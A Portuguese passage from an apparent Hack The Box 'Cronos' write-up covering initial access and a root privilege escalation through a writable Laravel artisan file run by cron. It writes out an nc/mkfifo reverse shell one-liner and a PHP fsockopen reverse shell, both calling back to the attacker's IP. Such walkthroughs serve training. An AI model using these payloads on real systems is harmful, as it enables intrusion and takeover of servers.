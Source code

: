 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-cronos/C_burp3.png)

### Reverse shell

Então pegamos um reverse shell na máquina

> http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

*rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.119 443 >/tmp/f*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-cronos/C_burp4.png)

Show!

# Escalação de Privilégio

Agora vamos iniciar a escalação de privilégio dessa máquina

Aqui não irei rodar scripts como Linpeas ou LinEnum. Verificando direto as cronjobs de root já identificamos o ponto de escalação

> * * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-cronos/C_priv.png)

Cronjob funcionam assim:

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-cronos/C_priv1.png)

Ou seja, isso roda de minuto em minuto

Não sei oq esse script faz, mas como www-data eu tenho permissão pra ler ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-cronos/C_priv2.png)

Adiciono um Reverse Php nele pra minha máquina

```
$sock=fsockopen("10.10.16.119", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-cronos/C_priv3.png)

## Virando root

Na próxima execução do script, viramos root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-cronos/C_priv5.png)

### Pegamos flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-cronos/C_user.png)
